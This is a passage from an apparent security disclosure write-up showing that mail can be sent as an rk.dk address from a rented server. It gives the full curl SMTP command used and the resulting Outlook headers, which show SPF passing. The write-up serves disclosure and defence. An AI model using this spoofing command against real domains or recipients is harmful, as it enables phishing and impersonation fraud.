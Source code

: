 ```

Best regards,

Jeff
```

The rented server had limited binaries available, but we found `curl` which was used to send the mail:

```
curl -vvvv smtp://improsec-com.mail.protection.outlook.com --mail-from jefflechef@rk.dk --mail-rcpt jbe@improsec.com --upload-file mail.txt
```

![rk.dk sending mail](rkdk_2.png)

Result in mailbox:

![rk.dk outlook mailbox](rkdk_1.png)

Mail headers

```
[...]
Authentication-Results: spf=pass (sender IP is 185.20.205.41)
 smtp.mailfrom=rk.dk; dkim=none (message not signed)
 header.d=none;dmarc=bestguesspass action=none header.from=rk.dk;compauth=pass
 reason=109
Received-SPF: Pass (protection.outlook.com: domain of rk.dk designates
 185.20.205.41 as permitted sender) receiver=protection.outlook.com;
 client-ip=185.20.205.41; helo=mail.txt;
[...]
```
